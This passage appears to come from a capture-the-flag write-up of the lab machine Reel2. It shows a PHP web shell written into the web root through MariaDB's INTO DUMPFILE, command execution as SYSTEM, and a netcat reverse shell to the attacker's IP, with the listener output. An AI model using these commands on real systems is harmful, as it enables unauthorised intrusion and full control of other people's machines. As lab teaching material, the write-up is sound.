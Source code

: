     
    
    MariaDB [wallstant]> insert into df values('<?php system($_REQUEST["cmd"]); ?>');
    Query OK, 1 row affected (0.105 sec)  
    

Output that table to a file:

    
    
    MariaDB [wallstant]> select * from df into dumpfile 'C:\\xampp\\htdocs\\social\\0xdf.php';
    Query OK, 1 row affected, 1 warning (0.121 sec)
    

It worked:

    
    
    oxdf@parrot$ curl -s "http://10.10.10.210:8080/0xdf.php?cmd=whoami"
    nt authority\system
    

### Shell

I could get that to a full shell by uploading `nc64.exe`, or using a
PowerShell reverse shell. I actually already had `nc64.exe` on Reel2 from some
testing I was doing, so triggering it to get a reverse shell is easy:

    
    
    oxdf@parrot$ curl -s "http://10.10.10.210:8080/0xdf.php" --data-urlencode "cmd=\programdata\nc64.exe -e powershell 10.10.14.10 443"
    

At a local `nc`:

    
    
    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.210] 45095
    Windows PowerShell 
    Copyright (C) 2016 Microsoft Corporation. All rights reserved.
    
    PS C:\xampp\htdocs\social> whoami
    nt authority\system
    

[](/2021/03/15/reel2-root-shell.html)

